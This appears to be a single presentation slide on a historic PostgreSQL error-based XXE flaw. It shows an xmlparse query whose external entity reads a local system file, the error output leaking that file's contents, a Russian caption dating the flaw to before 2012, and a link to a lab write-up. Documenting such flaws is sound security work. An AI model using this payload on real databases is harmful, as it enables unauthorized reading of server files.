

# PostgreSQL
> select xmlparse(document '<?xml version="1.0" standalone="yes"?><!DOCTYPE content [ <!ENTITY abc SYSTEM "/etc/network/if-up.d/mountnfs">]><content>&abc;</content>');
> ERROR:  invalid XML document
DETAILS:  /etc/network/if-up.d/mountnfs:28: parser error : StartTag: invalid element name
exec 9<&0 </etc/fstab
PostgreSQL, до 2012
http://lab.onsec.ru/2012/06/postgresql-all-error-based-xxe-0day.html